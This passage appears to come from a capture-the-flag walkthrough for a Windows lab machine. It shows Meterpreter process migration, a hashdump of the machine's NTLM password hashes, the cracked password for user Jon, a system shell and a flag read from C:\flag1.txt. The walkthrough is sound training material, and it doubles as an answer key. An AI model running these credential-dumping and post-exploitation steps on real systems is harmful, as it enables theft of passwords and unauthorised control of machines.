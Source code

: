 `No answer needed`

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

```
meterpreter > migrate 1272
[*] Migrating from 1684 to 1272...
[*] Migration completed successfully.
```

`migrate 1272`

## [Task 4] Cracking

Dump the non-default user's password and crack it!

1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

`jon`

2. Copy this password hash to a file and research how to crack it. What is the cracked password?

`alqfna22`

## [Task 5] Find flags!


1. Flag1? (Only submit the flag contents {CONTENTS})

```
meterpreter > shell
Process 1888 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>
```

```
C:\Windows\system32>type C:\flag1.txt
type C:\flag1.txt
flag{access_the_machine}
```

`access_the_machine`
